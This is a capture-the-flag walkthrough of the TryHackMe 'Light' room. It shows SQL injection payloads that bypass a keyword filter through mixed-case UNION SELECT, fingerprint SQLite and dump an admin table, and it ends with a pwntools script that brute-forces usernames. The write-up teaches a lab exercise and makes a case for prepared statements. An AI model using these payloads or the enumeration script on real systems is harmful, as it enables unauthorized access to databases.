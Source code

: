 # **Easy - Welcome to the Light database application!**
https://tryhackme.com/room/lightroom

I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using ``nc 10.10.22.91 1337``
You can use the username smokey in order to get started.

# Reconnaissance
Target: ``10.10.22.91``

We connect with
``nc 10.10.22.91 1337``
and enter username smokey which gives us 

```
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

Only SSH and the custom 1337 service when we nmap
```
sudo nmap -p- 10.10.73.73
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 05:19 EDT
Nmap scan report for 10.10.73.73
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste

Nmap done: 1 IP address (1 host up) scanned in 422.69 seconds
```

# Findings
- We try some obvious admin credentails, no luck
- We try the username and password with SSH, no luck
- We hit it with a large username list, we get users like alice although no admin. included the script at the end of this walk through for those intrested
- We hit with some SQLi and find there is some custom filtering, the most likely entry

```
Please enter your username: ``' or 1=1 --``
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
# Exploiting Findings

We find some weakness in the filtering we remove -- to find it by-passes filter but we get an syntax error, 
```
Please enter your username: ' or 1=1 
Error: unrecognized token: "' LIMIT 30"

Please enter your username: ' or '1'='1' 
Error: unrecognized token: "'1'' LIMIT 30"
```
In the error we see two '' where we have injected the SQL, so to get around the sytax error we remove ' from the end of our injection,
```
Please enter your username: ' or '1'='1  
Password: tF8tj2o94WE4LKC
```

Now what SQLtype? more filtering to overcome 
```
Please enter your username: ' UNION SELECT @@version'
Ahh there is a word in there I don't like :( 
```
Union Select Looks to bypass filters, 

```
Please enter your username: SELECT                                                                                                                                                                                                                                     
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: UNION                                                                                                                                                                                                                                      
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: Select                                                                                                                                                                                                                                     
Username not found.                                                                                                                                                                                                                                                    
Please enter your username: Union                                                                                                                                                                                                                                      
Username not found.                                                                                                                                                                                                                                                    
Please enter your username:      
```

Back to find SQL type

### MySQL
```
Please enter your username: ' Union Select @@version'                                                                                                                                                                                                                  
Error: unrecognized token: "@"  
```

### PostgreSQL
```
Please enter your username: ' Union Select version()'                                                                                                                                                                                                                  
Error: no such function: version      
```

### SQLite - Bingo we get a hit
```
Please enter your username: ' Union Select sqlite_version()'                                                                                                                                              
Password: 3.31.1  
```

### Find the table name
```
Please enter your username: ' UnIoN SeLeCt name FROM sqlite_master WHERE type='table
Password: admintable
```

### Find the columns name
```
Please enter your username: ' UnIoN SeLeCt sql FROM sqlite_master WHERE name='admintable
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

### What is the admin username?
```
Please enter your username: ' UnIoN SeLeCt username FROM admintable'
Password: ##########
```
### What is the password to the username mentioned in question 1?
```
Please enter your username: ' UnIoN SeLeCt password FROM admintable where username = '##########
Password: ##########
```

### What is the flag?
```
Please enter your username: ' UnIoN SeLeCt password FROM admintable'
Password: ##########
```

# Summary 
Nice room to show why custom built frameworks for preventing SQLi is a bad idea and to use [prepared statements](https://www.sqlite.org/c3ref/stmt.html). Also a good room for showcasing locating SQL version and extracting tables and column data. It took me a bit to long to start with SQLi and was focused on bruteforcing, although I do enjoy a pwntools script so was a bit of a side challenge. Including bruteforcing script below as while it didn't work it's a good showcase for pwntools so included in the walkthrough even though it was a failed path.  

# Failed exploration 

## Setting up pwntools for kali 
```
mkdir -p /home/kali/pwntools
python3 -m venv /home/kali/pwntools
source /home/kali/pwntools/bin/activate
pip install pwntools
```
## bruteforce script
``nano lightbrute.py``

```
from pwn import *
import requests

# Target details
host = "10.10.22.91"
port = 1337
username_url = "https://raw.githubusercontent.com/jeanphorn/wordlist/refs/heads/master/usernames.txt"

# Download the username list
print("[*] Downloading username list...")
try:
    response = requests.get(username_url, timeout=10)
    response.raise_for_status()
    usernames = response.text.splitlines()
    print(f"[+] Loaded {len(usernames)} usernames.")
except requests.RequestException as e:
    print(f"[!] Failed to download usernames: {e}")
    exit(1)

# Start a single session
print(f"[*] Connecting to {host}:{port}...")
conn = remote(host, port, timeout=5)

# Read initial welcome message
welcome_message = conn.recvuntil(b"Please enter your username:").decode().strip()
print(f"[+] Received: {welcome_message}")

# Try each username in the same session
for username in usernames:
    print(f"[*] Trying username: {username}")
    
    conn.sendline(username)  # Send the username
    response = conn.recvuntil(b"Please enter your username:").decode().strip()  # Read the response

    print(f"[+] {username} → {response}")

    if "Username not found." not in response:
        print(f"\n🔥 Possible valid username found: {username} 🔥\n")
        break  # Stop once a valid username is found

# Close connection
conn.close()
print("[*] Username enumeration completed.")

```

``python3 lightbrute.py``

